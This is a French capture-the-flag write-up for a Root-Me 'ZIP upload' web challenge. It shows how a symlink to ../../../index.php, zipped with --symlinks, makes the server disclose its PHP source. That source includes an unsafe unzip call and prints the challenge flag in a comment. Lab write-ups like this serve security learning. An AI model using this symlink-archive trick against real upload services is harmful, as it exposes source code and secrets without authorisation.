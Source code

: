 Pour ce challenge le site indique qu’on a besoin d’upload un fichier au format zip.
En document associé on a le manuel Linux sur les fichiers zip : http://repository.root-me.org/Administration/Unix/Linux/EN%20-%20Linux%20man%20page%20-%20zip.pdf

On essaye dans un premier temps d’upload notre fichier zip avec une image de chat (très mignon les chats) pour voir le comportement du script.

On a notre fichier envoyé dans un dossier du type :
```
http://challenge01.root-me.org/web-serveur/ch51/tmp/upload/5984123357e4e2.74715874/
```
Et notre image a été dézippée.

Maintenant on va créer un fichier php "test.php" avec une simple alerte :
```
<?php
 echo 'salut';
?>
```
Mais quand on essaye de lire le fichier php on a un 403 Forbidden.

**On a perdu cette bataille mais pas la guerre !**

Pourquoi pas faire un lien symbolique vers le fichier ../../../index.php.
Pour ceux qui ne le savent pas un lien symbolique (symlink) est une entrée spéciale de répertoire dans les systèmes Unix ou type Unix modernes qui permet de référencer de manière quasi transparente d’autres entrées de répertoire, typiquement, des fichiers ordinaires ou des répertoires, y compris sur des volumes de stockage différents (ce que ne permettait pas un lien ordinaire). Il se comporte comme un alias d’un fichier ordinaire ou d’un répertoire. (Merci Wikipedia)

Donc on fait notre petit lien :
```
ln -s ../../../index.php link
```
Et on zippe ce lien :
```
zip --symlinks test.zip link
```
On clique sur le lien et notre fichier link et hop on a le code source de index.php qui s’affiche par magie :
```php
<?php
if(isset($_FILES['zipfile'])){
   if($_FILES['zipfile']['type']==="application/zip"){
       $uploaddir = 'tmp/upload/'.uniqid("", true).'/';
       mkdir($uploaddir, 0750, true);
       $uploadfile = $uploaddir . md5(basename($_FILES['zipfile']['name'])).'.zip';
       if (move_uploaded_file($_FILES['zipfile']['tmp_name'], $uploadfile)) {
           $message = "<p>File uploaded</p> ";
       }
       else{
           $message = "<p>Error!</p>";
       }

       $zip = new ZipArchive;
       if ($zip->open($uploadfile)) {
           // Don't know if this is safe, but it works, someone told me the flag is N3v3r_7rU5T_u5Er_1npU7 , did not understand what it means
           exec("/usr/bin/timeout -k2 3 /usr/bin/unzip '$uploadfile' -d '$uploaddir'");
           $zip->close();
           $message = "<p>File unzipped <a href='".$uploaddir."'>here</a>.</p>";
       }
   }
}
?>

<html>
   <body>
       <h1>ZIP upload</h1>
       <?php print $message; ?>
       <form enctype="multipart/form-data" method="post" action>
           <input name="zipfile" type="file">
           <button type="submit">Submit</button>
       </form>
   </body>
</html>
```
Enjoy !
